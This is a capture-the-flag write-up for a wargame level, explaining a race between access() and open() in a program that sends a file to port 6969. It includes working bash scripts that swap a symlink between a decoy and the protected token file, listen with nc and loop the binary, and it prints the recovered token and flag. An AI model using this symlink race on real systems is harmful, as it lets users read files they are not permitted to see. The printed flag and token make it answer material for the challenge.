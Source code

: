 
# Security hole between open & access

Looking at the program, it uses the **`access()`** function to check access to the input file. If the function is successfully called, an open is made and the content is sent to port **`6969`**.

![enter image description here](https://i.imgur.com/sZOk779.png)
*Applies access on the file passed in ARGV 1*

![enter image description here](https://i.imgur.com/QSLNkBt.png)
*Socket init*

![enter image description here](https://i.imgur.com/pELDYDo.png)
*Send a msg to the server, print a connection log, open the file, read its contents & attach it afterwards.*

I based my solution on this explanation in order to exploit an open window between access & open. 
[https://security.stackexchange.com/questions/42659/how-is-using-acces-opening-a-security-hole](https://security.stackexchange.com/questions/42659/how-is-using-acces-opening-a-security-hole)

To start a background process, **just add the character & at the end of the command**, the PID will be displayed at launch to be able to KILL afterwards. Launch the telnet server first, then the script to change symbolic link, and 
finally you launch the program in a loop in order to get the flag, don't forget to create the **`/tmp/fake_tok`** file.

```bash
#!/bin/bash
# Script to exploit a race condition between access & open.

while true; do
	ln -sf /tmp/fake_tok /tmp/tok ;
	ln -sf /home/user/level10/token /tmp/tok ;
done
```

```bash
#!/bin/bash
# Telnet server

start_telnet_server()
{
    while true; do
        nc -l 6969
    done
}
start_telnet_server
```

```bash
#!/bin/bash
# Random Brute force

while true; do
	/home/user/level10/level10 /tmp/tok 127.0.0.1 ;
done
```

> Token : `woupa2yuojeeaaed06riuj63c`

> Flag : `feulo4b72j7edeahuete3no7c`
